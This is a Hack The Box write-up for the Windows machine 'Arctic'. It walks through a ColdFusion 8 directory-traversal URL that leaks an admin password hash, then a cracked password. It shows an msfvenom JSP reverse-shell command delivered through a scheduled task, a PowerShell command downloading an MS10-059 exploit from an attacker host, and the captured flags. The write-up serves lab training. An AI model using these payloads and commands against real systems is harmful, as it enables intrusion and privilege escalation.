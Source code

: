 ```yaml
---
layout: post
title:  "HTB Artic Windows"
description : Tools and techniques used, LFI, hashkiller, jsp-shell
tags: HTB, Coldfusion, hashkiller, windows-suggester
---
```


# HTB Artic
# Recon

```ruby
Nmap scan report for 10.10.10.11
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
# Exploitation
* We noticed that port `8500` is open.This port is used for Adobe ColdFusion.
* We investigate further and we find a web app running.  

![](https://lh3.googleusercontent.com/MPpzTT1fUn_dnDqNFBouPgLrdpz42g_boV6kvtZ3zSICG9i2U-lt3006mkvihoNRm1oSaCHCi8iBmigihL0GfaSm95zNPU9BHLXOcgWb42UHFa_SHej_z9aegRpYcXxP_7n-AlseZt0y055LAPkdgum54nA9qfedtkcGDvXg5bRRPjn59IJtWHyI4QUommXcHA3jauzjo0XfeURw-k-rkL4dEMFmqE55yBRYW288P-Fzp6pB-f38WCBYo2c6-5lLHwVo4QdGCV05ddO7O2yn-xBAV0H-YHQvhaUpQ1CK-roJG0TA_QPONcsTi0NfLvtQwD-MPRswxMdSEPOASC2h1UD4C8NgvERwo8IuruMzy1S2j_aemAmaWLKvxYvQqe7Y83KFa_sfS7IwAetqCKdKbwSMXHWwy1aK1_eWIKWvmVncDqttJKd9OBjq8f6O8IFeNUeCnIfteEXLN4upff6w_dlw7fgcK2z42pEoE1VwRKFsqt5oUMN868TWmQp5EXI3cTGPstS_4zesKMIL_4Mm4hJaY11iYfJt8VYBhTSZB5zo6s-TgW2JU7JwwLI2pq4dC6VMNTZot-Uok4yJLrFsU8i_XQ9Jry6L5YDZBNT76Q6kwgXb2_2M1blO-8SgxhxZUK_z3ezZ8dZTUT8z8jueFt81cjDjutQwZ0Ct50GPVkg5bYl1AaNRRTo=w404-h195-no)

![](https://lh3.googleusercontent.com/1q7e_7yA20GcWefxFljf6vTMus6fJJgTnPKexMrJzFkmB23569xCcwDCI-BxlgO6VorvW1AHHx6WVy8XmLIZIjJDL6T5xcCNhMInaAcYMjI4yqc_LX1ma3krqMY-ODBUBJiGPoYYd883g3XdbqpNfEyGGntGnAvMI94h4r5hgPHo5sfcq4c24qGRygvGLgyy6to6V8Nr3zzGft3GdkfwzND_ZbkpVE_MMiyd0xAWCw_qp3xMIhIpOJjOmV0gGFXuoZtynOWAG7TkAmmAcuLjaqluMPPvYrSxgllQ1bcxYN1pm3geTJ3g3fU69Te6oESiQ9bcLfNOx0DJCxwWtKbhASc7YjjSnU-s-sx-kyl3c55zerlWuJAbEG8_u3aTIfBMOIpBR6rYNQL41UTrMhaCZpwyz1eopzxKtwexZTSBJSqIPgqB3EO3kmCKrBpoe1EZA7nlQh6sjE36lYxnVtzYAIdlRMUewU8yjhLAuXfTbFoJ4yUNZjo10iYnB785EZLzy3XpoHX1a6-tbzV8W3A8Htfa4kvGShj_BiuzEBiK9gl_wrEM1KolRwPToOc9h16EBtJm1F6ATh7Fl3xW8ugovrClcC6w7kL1-IMg0EWyFQC7yffOk-qisVZ7elliubcFO_CoKbygVv0hDn6MO9yq_AppdbZlf23kzdIiDhSboVBc2O98H56vJO8=w523-h297-no)

* Finally we we're able to locate the admin page. This provides us with very important information like the adobe version running.
* Some googlefu reveals that this version of Adobe is vulnerable to LFI.
- PoC:
```
 http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
```
* So we exploit the admin page to obtain the password hash for the admin user

![](https://lh3.googleusercontent.com/A22EMJ2VPNOYLkGD_fhb8FZODYdwUEF70hiMtKuMPrsFMN2QRrQtiYPrAZPp33oKbh9SUpP9jrDgC_x1KTXY20qqHWWSxcLOL9lrfkiIFqDUSY5CJYu7btbqeHQv82NtXIUW8nzVwX4ZGPfB3dgKSYXyL6QVwqA17I0fRlCcTtMt1LYZoduWkLrUmSsIPys0w-vFox_2FgaB2kakMItBT9Lby4AhQRMGvCfR4CurxMxkSbDohkio8qD54I4Z-aWAxZMdAf9PQzJXxcqLg035_M0_zhpZ30HVVYW3iFZ0I5oC7gPzxmUWESbbEgjgOmfQrowb3VQP2GEK9f-jtYBELSeDJ2KIs_OQ637jWgZQ2zu6L1PRtiOY7ah3QtscgFKicn52Q29XYw059K_SZX3sKJpPq-HwbnO2RuQJhjH1v7kvqm7XRiy35PKM7lA-bKZoBwLeDj54Gm48pQicOGWjWf8780LePz9-5GEQqjBK8JA1z4Pl6oq5rDVbcv5wz3HUnrZCYZjbVbwFnMhxmfOEvkY6tPg1eKtHjA4DoaqFIh0Zf2c-FMiN4wvwpE3g2Vs8v765muJEwQAWcFm5I3ImRUIxQ-7fw_qiuwFSnWbGeTjQnL58sJ63natllTMtoOW5mwXS754quSI4PP95T2H2bdJhwVRQngAqL6Vc2u0AS6b7znw0IGxv4yI=w520-h464-no)



* We crack the hash using a cracking website `https://hashkiller.co.uk/Cracker` and we our SHA1 password `happyday`

* We login using the admin password

![](https://lh3.googleusercontent.com/a0jn07Idy0VE8z77tsRLB2OsJdk07-9WyiXiFDOAAMECzfW5yClAyQDBtR911AtC2hMcV0HXk9CfnRwfl6OV_Xxdn-UGHlsrFArhFATwdMwOmobatWaPjsJFaSDpRPVnWmDWYRdokCne1PJXcR_fx-OOQce5W2mCNqYmyu2qzF4eYyQPfXzukDhDkIS2Sn05EYpeNa8C0spY-J08tPVIryxPWDs5Ddb1WvKqCRT7gWYPT0Aml-LQ5Ofq2bDFrhhwtUQOu2V9FYS84p06CV7DWuxGqtRV5sR5MHDTnnoWvawDyT2MeRG_uDlFL0JfEIx7A4_zVyifA3F9GPbSzG9pUUdPh26IWJZQKDRRNZXjo7ZqbdWnVtFVEC0JNFUqQqe3PR8vs2eIGN3aDpKo-_SVPUL44myOU8zr1EKqr5uSR2gNiPmB-P-2F8p5OY5FS54owfScwuJsyNh6TcR1_kpX4uLrjgVfVoz5GBjORHaXPbKPWh2yNlMipSRk30mUafo1ObJIw-ZCy5nWHW2dTw-r6Qy4kJzRdkPHAcvSkRN3lkXvtkkbTpS_IhS8FiBSd8-TvFf4k7hktXmIqVonquQY-82uhQOQhkj9fkJJZDdbce304fs__zSyT9QOCH43ZLQt3nJn4cCW3JXUhE9SMfaXfN6eVOtWZMbWSJT9iJbbAjVIKXunlUQXyvw=w601-h491-no)

# Exploitation
Once on the admin panel we choose scheduled tasks option from inside Debugging & logging for scheduling new task.
![](https://lh3.googleusercontent.com/LEq9ySUtSZiercJCBL1BhGUM9G7a3DF87T01ALBPnrg0Y6Q8lNkOuI-g0MuHjsu7p6A8kI4PsGmE8SjA_55jN8gHCOBKUIfXGAx9S3FYQyA0HTyV5qTZhYVAHj82MV4yn1QREOS9xrzSXy0IzIb32OGlRzcr_sEnFlpKG0eLEu77-dwmBaflfRN86vNzAvUu6OCrEsu0v4rSZYlfR9ysxs1X-qNDFzRQtFg7xsyRrZxsuFugvxhWv72kbzQDCV8_ry_4BAjw4gWgNOMM9DP-3AOKhi9LqD3dK3ru-HC2wRvZ-UAQMUVmwdHA2rbn9zH6O6HHHW-FG8FEqDgvW5U-EFxBiMvlmYQGlBRSPe1ru3t8aEn-pqOa39uOXLpPvw3N3dJNpSVJKHseXkR0OwfHVI_j6pcf2cPn_zIVIddDX9Vf3Hb4OmWxIz8iiHz84gtc4Q-sNaOSyd0RbeQqnAtxk5LrZVzvP3wd2VlC6daMVmy_I6qUc_4c2MV-mhKPrqQOBNx0KpNK-LY-d42bwa0Hw47v2D9d2hcOSr2a2mgWAnDMgJmJWpWxBpqLLUPuMwwpLQsq06IBT_KkT6VZoKHgq6xeKggKrOmKDsQR3yGHWS1u7VxH-r1HWQSnAv_iBG1lU-H5NnSftPZ7uzOGmByit4fBl5Kzf8YkqxNHVSqDF8iNKgjGujK0Xwk=w660-h411-no)

![](https://i1.wp.com/2.bp.blogspot.com/-LjTRFFM_1ro/Wr-nXwWY4mI/AAAAAAAAV5I/j392zbTSVSAnnxhTwrWklhQL0hizsgLiQCEwYBhgL/s1600/9.png?w=687&ssl=1)


From the schedule task settings we can upload or .jsp shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to
Connect On> -f raw > shell.jsp
```
We set up apache to serve our payload.
![](https://lh3.googleusercontent.com/Min2o6TIiNxI-w_6sZkca7T7KNOT1fNgjn6feJlQS2vkgQie689AejBaHHqejyQY-nFFpENPqcZ1DP4AVNFNkXg8_i0dC8sH0R_4wLjGEzn2r--p4UO3nANVgF5K7wUDqk-9PhUalvrVhRqZ5AUPOuM8blGw8xOicCz-FmtAYOaz1yLvAjCwC4qcZVnUUKLW9Spw3cbbcjRWvHtdgCeOpwRhMHKv5lRYu64cgp-ie_qWsFudR8CdHKVJHrm2VopUUgw3QyZY6bnrZu3LZLIlvaCsVTVPnQbszTmlaRcbwxxAg1pjzE0j8IarAgQuHq64pUlTRLXXTWDlCmPO1FpWIgldozhU8fqu7Gb3it-OStT-s15EHto_2afBh9kj08qj87rKy-iPYwijXt9lO9niZj8Z9aQ7xv4P497XaSm9oa9XwbwPfOKwLJKUbhuOCcXdpCX1tWBxqSddzWikNaFk-3QW92MbfxTCHxdPCPO3u9M3M45q2ACNrQ74zLefB-OLPnmWHEEK_pocCa5wDgBTLZek0_xSCLt_x7w0YyttR-ZkJzFVtOXaL_xlYlTaaERRFQoBdzpYb_xCc2-vacEkzyoRwJIvQPmQAsraTStiZOsafDPq-U0ebr-2XHg1G1kXDGs-tQaYY67jBu0JYLv5gbqjLzT03LGvU7znxeBUjxC9r2g41pY0u7o=w1027-h245-no)

Then we proceed to run the task so our payload can be executed
![](https://lh3.googleusercontent.com/veug3uR-KmVK52EuD7-30Ogj9fDcl5kKRq09M3GFg0kCYbjVrbqFxa5TRIdM3YQuWK_1f_s-Y1oeXgl3XT8IRIuDkrsblzW6ph5IC8jwPFmy8HlzTCdr69PdeWqfLr4xEUqdvzvdRnFlj6S4-JvlMKy7tPQVpmb9EmKWoMhRVH1ydrHKb-3CdqD0hOn-v_70n-SwVHiH_amiu5ZKzhRntirWYNadxOehED8INqiXltTb6FQCyX0mLf9bwDyhwkKDo62WqTELPqXmdeRb5YGYATRqLqHKTNw85eIwerUaacgw9NrfpiWbfcvtGrYzAGogC661qTV9k2ljwWrvmr-YJApEo77rVe-lSR4w9yc_AGDqfuBjkqpAk7SbGEzN0VFr3TYBuxOsFe2fnk_yBqCa2jfSVGlmmJ3eqhWl0l9VqcnSpQnJjvLLS2cumQm_czk1jQaTzi5L-zbEfuB4YWzSbtvc073MWyGJrMFiBAsoc1HRvsz0hrqCo2Uwp9C7yrK-w03YCauhxuA-iZiIcGqv_V9zED0bdMkxG6UIVBrEBMdcTZbIhUbXN22TOmyVctxcl6G_rzmpaoBslO4r1IHBrXw1JTeRh-ONNsVkeet4FS_aINDcThry4-qgQ7eKRx918zFAfKWl9Du7QPozdLVkoBMLKGwu54sRuZgYof_NTBzjrrw9V1O3fzE=w611-h256-no)

Finally, we set up an nc listerner and we catch our shell.
![](https://lh3.googleusercontent.com/W__r2reVLTX0-3dTnY1fHPVfnwnJnCudwSOdykpYWPwjtPnY9eeqNDYvmPvRKWiK3A7rk1v8vCi2aJTdacu0mqswn2NJuD5fXbcqSGmSQVn8DFfhq5XBqOpyYh8M8DREdpeW3_Tz0L8fV9ZtIcgIce_D83SYhDyXgCqh9l3bCUbjPPS2hgzqnmc4lEniZqf_H1az5vrXe_b5z5kt1sSGbhtbMrmANvjIqDswKKOFfECRsImNYwQhWN_h2cECwoh9ZSbdmLSsGL1YWLeO5Ul_HyflbSE1RReHm4U2Myc_D2D6Slmw_xMUNhfAdttVj66vy-Ve1oyY0QER_zDMEuoKvrYdI7ySFZrp7yJ7ZKSkJiCe1huswyJAHvyeE4fdNU8ffRdWiWMooQFD3aHcSx1vi3YyDqmOWhzsjWrkrsUzdqhOWUC-N86nnVxWhcUFV99yhc7sShtymX9xES1mFKtPdUpwdMbG0PNMbSTpZx6chrAQKZqM36IfGUjkx6fDwsJFCQDp4VHp10-4CrGU1W4PsL3Vo7imPTZfDQ1mwHm2mZDyE6cddXMojT2nB6GhU5AKkTUL9GQpqllKyfsHJ1UU1SQ4WjvJW74OKso5Nf2CAHHw9Psa5lPQXGNAc-Z-oRFznWSL6nGYXC6bQdoPhwTxGb4SwyB7sJiik-h_6Tvn4ECV3foiSMLWsmY=w671-h230-no)

# Privilege Escalation
We run windows suggeters and after a lot trials and errors I find a suitabl exploit
* MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799)

```ruby
python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo
systeminfo.txt
```
After some google I find a compiled version of the exploit, we dowload the file and run it
```
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.14/
Chimichurri.exe', 'Chimichurri.exe')"
```
![](https://lh3.googleusercontent.com/epn8X8AntKErOlKnNUuVw1nK6LXq32S5kuCC27WqFVE21wmFWkCB0jYswzA_R7FE_VySFOnC35HPiUsp-WdXHusyJfK8T8kl2gqw3GX0pcEIf9Dsnq4E26YeIipm-09eV3ChIW3-hsAe_iKKLQ1JGDNB6bd5UYKIujfoZwlfk5db_H9YIIrggCJz0fWKfkXOd9toqrK2TimuVtTkUYC8VEJHTeCE0GMTICabHeERzM1chvTHUsR93mbj3_JsTOrK3xpWlUcKpxcxssonCXrQwNO82yWvsRP15n5eWa7OYMD76iDbi8aAfUr1b2TdlNaHdIl3Js7C4SPv4cpWd46WBt640jSm2hC8F8Kf61FqjzTPIhwvRRiyQRxMdqnNttv0Wepn1fQ3VNd5EMo67kDP6ZEAlVtbutI6FpZ3SdFhr0F0jawrgxTEvh6QdoyVE7e-Mj_IxJDJYPcA-_f8hAv0_Zi-7H09pMAL6zt-BGCqCe5-4pydPNOQi7pZuRff1KKChiv8SlawqG1-G5V6O0INztk4vxIJTUFCLTfK8GQXi2A-XOtuCwMJgNX0PgfyS4HG1TyVxrli9YE_32uTj8dUnMRlkY_7a8vlKe7Oty-_b4sJ2g66fCSVZx5PlhO8vvNOsempaSCwGl6U9r9GIy6m7fM7IikramDNYbZHfKB5BPqrrFawAk-La2M=w1327-h497-no)

![](https://lh3.googleusercontent.com/diUlDO3Ebgxfj1_edvI_NVTUb5dJNV_ffuJ_cUVOToqr3JwXpfRmx94DtSnrxXSL2w4QoG7h5hZIt468Lg_btTvVgQGA4AU-7wN9FoYz1IKx4bG_0GknHdZYQh0Oc-YQXdEHYnUaAPt7dVcNxGhzUdRkAi06ZzZDrBWUwzG45yRbbMpq7IZe5x7Gc6GUx8HIs9qHi__LjFqgQQhmBsiwuIGGYT0_dSTG5xvdAB1JLNte7YUZ5FaDzdMWRNQWUO5ExoD_G9hm27znUO_sAttyJkS2o_B1c6zHB3brIkJMgot6GqvJJuiIG__CRkZJ7q5_m32jCjFhqagmpIhl1XkXYJKMLKLq6b6UXu3lpWQoAUV7kU5z1nJ0BD1ztKnRFToZTewG0rc6aCTJHF0O8w_G28KMLtS5_786lodnceDdEEIzh4kf5h_JxsbZjSXiFTPlCwQUU_tZb8HJwQxsYdnWTkm7GMcluG_0z68Bt5vmrToLJ6v_r2eXjmPyxSRh1-6ZwSTv9MvKD0jcaxBzVYtiU_Pivk-VzTrOrtqNNNVZTCQhx22OlXlRV-0-A_FeTvPAa2tzLYjsLQ3EvIgUBLOFMQkKCdcRZwR7lGK2LCtJDDgcr8xlj9rIVOS3djjGKJETRLspPm_54KCkvhX3XbRnDAwMSL6a-ZgmPQXNzyHCLNh_xbk6Gut-8TM=w640-h466-no)

```ruby
USER '02650d3a69a70780c302e146a6cb96f3
ROOT 'ce65ceee66b2b5ebaff07e50508ffb90
```
